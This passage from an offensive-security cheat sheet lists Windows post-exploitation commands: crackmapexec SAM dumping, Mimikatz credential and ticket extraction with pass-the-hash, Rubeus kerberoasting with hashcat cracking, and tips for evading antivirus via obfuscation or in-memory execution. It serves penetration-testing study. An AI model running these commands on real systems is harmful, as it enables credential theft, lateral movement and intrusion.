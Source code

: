 ```shell
crackmapexec smb <TARGET_IP> -u testuser -p qwerty --sam
```


### Mimikatz

Mimikatz is an open-source post-exploitation tool to extract authentication credentials from a Windows target machine.  
It is used to extract NTLM hashes and Kerberos tickets from the target's memory.

```shell
# extract the NTLM hashes from memory
 mimikatz # sekurlsa::logonpasswords

# dump all password hashed from the SAM database
mimikatz # lsadump::sam

# pass-the-hash attack to access the administrator account from a dumped hash
mimikatx # sekurlsa:pth /user:Administrator /domain:example.com /ntlm:<ADMIN_HASH> /run:cmd.exe

# extract from memory the Kerberos tickets present on the machine
mimikatz # kerberos::list /export
```


### Rubeus

Rubeus is a post-exploitation tool to interact with Kerberos authentication in Windows environments.  
It requires administrative privileges and often Domain admin or SYSTEM right for some of its attacks.  

Rubeus can be used to :
- extract and reuse Kerberos tickets (pass-the-ticket attack)
- kerberoasting to extract service account password
- forging Kerberos tickets
- requesting TGT using plaintext passwords or NTLM hashes

Rubeus is often flagged by antivirus solutions.  
To avoid detection, we can use an obfuscated version or run it in memory using Cobalt Strike or execute-assembly in Meterpreter.  

```shell
# extract Kerberos tickets from memory (need admin right)
.\Rubeus.exe dump

# Kerberoast to extract service account passwords (require domain user right)
.\Rubeus.exe kerberoast /format:hashcat
hashcat -m 13100 -a 0 kerberoast_hashes.txt
```


### Seatbelt 

SeatBelt is a C# tool performing several security checks on Windows systems that can be exploited for privilege escalation.  
It automates the detection of systems misconfiguration.
